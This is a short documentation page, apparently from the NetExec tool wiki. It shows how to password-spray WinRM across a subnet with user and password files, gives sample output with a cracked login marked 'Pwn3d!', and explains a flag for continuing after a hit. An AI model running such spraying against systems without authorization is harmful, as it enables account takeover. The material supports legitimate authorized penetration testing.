 # Password spraying

### Password spraying (without bruteforce)

```bash
nxc winrm 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```bash
WINRM       192.168.255.131 5985   ROGER            [*] http://192.168.255.131:5985/wsman
WINRM       192.168.255.131 5985   ROGER            [-] GOLD\test1:pass1 "Failed to authenticate the user test1 with ntlm"
WINRM       192.168.255.131 5985   ROGER            [+] GOLD\bonclay:Password@123 (Pwn3d!)
```

{% hint style="info" %}
By default nxc will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list.
{% endhint %}
